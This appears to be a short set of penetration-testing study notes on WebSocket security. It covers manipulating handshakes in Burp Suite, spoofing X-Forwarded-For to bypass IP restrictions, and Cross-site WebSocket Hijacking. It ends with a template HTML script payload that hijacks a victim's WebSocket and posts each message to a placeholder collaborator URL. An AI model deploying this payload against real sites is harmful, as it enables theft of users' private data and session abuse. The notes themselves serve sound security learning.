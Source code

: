 ```yaml
---
layout: blank
pagetitle: Websockets
---
```


**Common vulnerabilities**
- Since websockets are just another way of communicating with a webserver, most standard vulnerabilities still apply
- Burp's websocket history and repeater can handle websocket communication

**Manipulating Websocket Handshake**
- Process of manipulating the handshake:
  - Send Websocket message to repeater
  - Click pencil next to URL
  - Choose `clone` for a connected websocket or `reconnect` for a disconnected websocket
    - This will show the details of the handshake request, which can be modified
  - Click `connect` to test out the configured handshake
- Common handshake vulnerabilities:
  - Misplaced trust in HTTP headers for security decisions, like `X-Forwarded-For` or any custom headers
    - `X-Forwarded-For` can sometimes bypass IP restrictions
  - Common session-handling mechanism flaws in the handshake

**Cross-site WebSocket Hijacking**
- Results from cross-domain WebSocket connections from an attacker-controlled site
- Happens when the Websocket handshake relies only on HTTP cookies and doesn't have any CSRF tokens
  - Attacker can set up a malicious site to establish the cross-site websocket connection to read contents of messages
- Payload:

```html
<script>
    var ws = new WebSocket('wss://{websocket_rl}');
    ws.onopen = function() {
        ws.send("{command_to_send_as_user}");
    };
    ws.onmessage = function(event) {
        fetch('{collaborator_url}', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```